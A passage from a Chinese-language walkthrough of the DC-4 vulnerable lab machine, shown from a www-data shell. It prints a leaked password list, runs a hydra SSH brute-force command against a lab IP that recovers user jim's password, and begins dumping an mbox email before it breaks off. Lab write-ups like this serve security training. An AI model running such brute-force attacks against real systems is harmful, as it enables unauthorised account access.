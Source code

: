 4. 进行查看`jim`目录下的文件，目录下的`mbox`文件没访问权限，在`backups`目录下找到`old-passwords.bak` 
    
    ```python
    www-data@dc-4:/home/jim/backups$ cat old-passwords.bak
    cat old-passwords.bak
    000000
    12345
    iloveyou
    1q2w3e4r5t
    1234
    123456a
    
    ...........
    
    svetlana
    fatima
    123456k
    icecream
    popcorn1
    ```
    
    是很多的的密码，我们拿去爆破`ssh`用户`jim` ，将内容保存为`passwd`
    
5. 使用hydra爆破
    
    ```python
     hydra -l jim -P passwd -vV -e ns 192.168.75.173 ssh
    ```
    
    ```python
    [22][ssh] host: 192.168.75.173   login: jim   password: jibril04
    [STATUS] attack finished for 192.168.75.173 (waiting for children to complete tests)
    1 of 1 target successfully completed, 1 valid password found
    ```
    
    破解出用户`jim`密码`jibril04` ，其实也可以用来尝试破解`root`用户，不过没破解出来
    
6. 登录`jim`用户,查看权限
    - 没有相关`sudo`权限
    - 查看当前目录下的`mbox`文件
        
        ```python
        From root@dc-4 Sat Apr 06 20:20:04 2019
        Return-path: <root@dc-4>
        Envelope-to: jim@dc-4
        Delivery-date: Sat, 06 Apr 2019 20:20:04 +1000
        Received: from root by dc-4 with local (Exim 4.89)
                (envelope-from <root@dc-4>)
                id 1hCiQe-0000gc-EC
                for jim@dc-4; Sat, 06 Apr 2019 20:20:04 +1000
        To: jim@dc-4
        Subject: Test
        MIME-Version: 1.0
        Content-Type: text/plain; charset="UTF-8"
        Content-Transfer-Encoding: 8bit
        Message-Id: <E1hCiQe-0000gc-EC@dc-4>
        From: root <root@dc-4>
        Date: Sat, 06 Apr 2019 20:20:04 +1000
        Status: RO
        